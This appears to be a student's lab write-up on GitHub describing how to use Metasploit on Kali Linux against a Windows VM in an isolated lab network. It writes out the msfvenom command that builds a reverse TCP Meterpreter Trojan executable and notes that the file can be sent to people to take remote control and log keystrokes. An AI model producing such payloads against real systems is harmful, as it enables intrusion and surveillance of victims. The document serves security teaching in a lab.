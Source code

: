 # Ethical Hacking 3 - Prepping To Hack Into Window VM

<h2>Description:</h2>

In Ethical Hacking 3 - Remote Hacking Windows VM Part 1, I will embark on an immersive journey into the realm of ethical hacking. This hands-on lesson will guide me in utilizing Metasploit within Kali Linux to create a Trojan malware, specifically a reverse TCP Trojan executable containing Meterpreter. I will gain insights into the capabilities of Trojan malware, including its ability to steal screenshots and keystrokes. Furthermore, this lesson will cover the creation of a web-sharable and executable folder, enabling me to initiate hacks from a Kali Linux VM into a Windows VM. I will also learn how to effectively listen with Kali Linux while executing these hacking techniques on a Windows VM, providing me with a foundational understanding of remote hacking methodologies.



<h2>Environment Used</h2>

- Kali Linux and Windows VM : 
  - Network Attached to: NAT Network
  - Name: PublicNAT
  - IP Address = 10.0.9 Network
 
- Tool Used: Metasploit from Kali Linux
 
<h2></h2>

<h2>Launching Metasploit on Kali Linux VM</h2>

1. Open up Kali Linux on the Oracle VM Application

2. Click on the top left corner of the VM for application > Scroll down to 8. Exploitation Tools > Metasploit framework

<p align="left">
Metaspolit Navigation <br/>
<img src="https://i.imgur.com/O6F3Kyq.png" height="35%" width="35%" alt=""/>
<br />

3. Creating a Reverse TCP Trojan executable containing Meterpreter:
    - msfvenom -p windows/meterpreter/reverse_tcp LHOST=[your Kali Linux IP Address] -f exe -o ~/Desktop/["Name".exe]
      - -p = payload
      - windows/meterpreter/reverse_tcp = can just send people this file and if they click on it then it will give us a reverse TCP connection
      - LHOST = Local Host Address; Kali Linux IP Address
      - -f exe = format of an executable file
      - -o ~/Desktop/"name".exe = output; ~/Desktop = saving on desktop on Kali Linux; /"name".exe = naming the program
    - Metasploit framework Venom is a payload creation tool
      - Allows to embed a payload called Meterpreter
      - Meterpreter = tool that gives remote shell/ complete control over a remote computer

4. Msfvenom Payload and Payload successfully created on the Desktop of Kali Linux:
    - >msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.9.4 -f exe -o ~/Desktop/Diablo5.exe

<p align="left">
Msfvenom Payload and Payload Created on Desktop <br/>
<img src="https://i.imgur.com/z5eNv1m.png" height="35%" width="35%" alt=""/>
<br />
